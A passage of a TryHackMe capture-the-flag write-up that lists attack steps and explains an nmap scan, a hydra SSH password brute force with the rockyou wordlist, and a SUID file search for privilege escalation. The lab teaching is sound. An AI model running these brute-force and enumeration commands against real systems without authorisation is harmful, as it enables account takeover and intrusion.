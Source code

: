 13. `ssh {USER2}@{TARGET IP} -p 22`
14. `whoami`
15. `ls`
16. `ls /`
17. `ls /home`
18. `ls /home/kay`
19. `cat /home/kay/{FILE4}.bak`
20. `sudo -l`
21. `find / -perm -u=s -type f 2>/dev/null`
22. `vim {FILE4}.bak`

# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ `-sC` enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ `-sV` enables version detection, which attempts to determine the sevice and version information of the open ports
+ `> {FILENAME1}.txt` redirects the results into a text file


`hydra -l {USER2} -P {WORDLIST PATH} ssh//{TARGET IP}`
+ `-l {USER2}` specifies that {USER2} is the username to be used during the attack
+ `-P {FILE1}.txt` specifies the file containing the list of passwords to be used for the brute-force attack, for which we used the **rockyou.txt** wordlist 
+ `ssh://{TARGET IP}` specifies the protocol and the target IP that we want to attack


`find / -perm -u=s -type f 2>/dev/null`
+ `/` specifies the starting directory to be the root of the filesystem
+ `-perm -u=s` specifies that the files must match with the SetUID permissions for the owner, which is the user that we're currently logged in as 
+ `type -f` specifies that only regular files should be considered in the search
+ `2>/dev/null` redirects error messages to the /dev/null file, which discards them from the output

# Contributions
This writeup was written by Jonmar Corpuz.

Socials:
* TryHackMe ID: https://tryhackme.com/p/mtlfriends
* LinkedIn: https://www.linkedin.com/in/jonmar-corpuz-12771a234/



